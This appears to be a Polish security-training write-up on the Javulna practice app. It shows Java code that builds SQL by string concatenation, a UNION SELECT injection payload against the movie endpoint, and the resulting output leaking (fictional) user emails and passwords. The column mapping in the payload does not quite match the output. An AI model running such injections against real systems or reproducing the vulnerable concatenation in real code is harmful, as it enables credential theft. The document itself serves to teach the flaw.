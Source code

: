 ```Java
        appendCondition(sql, conditions);
        conditions++;
        sql.append("id = '").append(id).append("'");
    }
    LOG.debug(sql.toString());
    List<MovieDto> users = this.jdbcTemplate.query(sql.toString(), new 
    RowMapper<MovieDto>() {
        @Override
        public MovieDto mapRow(ResultSet rs, int rowNum) throws SQLException {
            MovieDto ret = new MovieDto();
            ret.setDescription(rs.getString("description"));
            ret.setTitle(rs.getString("title"));
            ret.setGenre(rs.getString("genre"));
            ret.setId(rs.getString("id"));
            return ret;
        }
    });

    return users;
}
private void appendCondition(StringBuilder sb, int conditions) {
    if (conditions == 0) sb.append(" where ");
    else sb.append(" and ");
}
```

Odpytywanie bazy danych jest możliwa poprzez wystawione endpointy, umożliwiające komunikacje. Pobieranie treści z bazy danych odbywa się poprzez tworzenie zwykłych zapytań SQL'a. Tworzone zapytania SQL, są ze sobą "sklejane", przez co są podatne na niechciane ataki.

```
`{{javulna_host}}/rest/movie?id=1' UNION SELECT id AS id, name AS title, password AS description, emailaddress AS genre FROM APPUSER-–`
```

```XML
<List>
    <item>
        <id>yoda@lucasarts.com</id>
        <title>Yoda</title>
        <description>1</description>
        <genre>NoSecretsATrueJediHas</genre>
    </item>
    <item>
        <id>darth@lucasarts.com</id>
        <title>Darth Vader</title>
        <description>2</description>
        <genre>IamYourFather</genre>
    </item>
    <item>
        <id>lea@lucasarts.com</id>
        <title>Princess Leia</title>
        <description>3</description>
        <genre>IwishIhaveChoosenTheWookieInstead</genre>
    </item>
    <item>
        <id>1</id>
        <title>Star Wars - A new hope</title>
        <description>Luke Skywalker joins forces with a Jedi Knight, a cocky pilot, a Wookiee, and two droids to save the galaxy from the Empires world-destroying battle-station, while also attempting to rescue Princess Leia from the evil Darth Vader.</description>
        <genre> Action, Adventure, Fantasy</genre>
    </item>
</List>
```
